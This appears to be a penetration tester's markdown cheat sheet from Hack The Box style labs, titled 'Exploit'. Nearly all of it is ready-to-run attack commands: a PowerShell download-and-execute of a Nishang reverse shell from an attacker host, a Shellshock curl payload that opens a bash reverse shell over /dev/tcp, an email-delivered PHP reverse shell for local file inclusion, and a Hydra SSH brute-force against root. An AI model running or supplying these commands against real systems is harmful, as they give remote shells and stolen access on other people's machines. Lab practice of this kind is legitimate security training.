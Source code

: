 # Exploit

## Reverse powershell using Nishang
```
cp ~/post-exploit/nishang/Shells/Invoke-PowerShellTcp.ps1 ~/HTB/chatterbox/
powershell "IEX(New-Object Net.webClient).downloadString('http://10.10.14.3/shell')"
```

## Shellshock
```
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.90.35/9999 0>&1' http://192.168.90.59/cgi-bin/test.sh
```

## LFI
### Send email
```
sendemail -t asterisk@localhost -o message-file=php-reverse-shell.php -u pwnd -s 10.10.10.7:25 -f flame_n@htb.eu
```

## Bruteforce
### Hydra
SSH
```
hydra -l root -P /usr/share/wordslists/metasploit/unix_passwords.txt ssh://192.168.4.4:22 -t 4 -V
```
### scanner/ssh/ssh_login

## https://digi.ninja/blog/when_all_you_can_do_is_read.php

## https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/
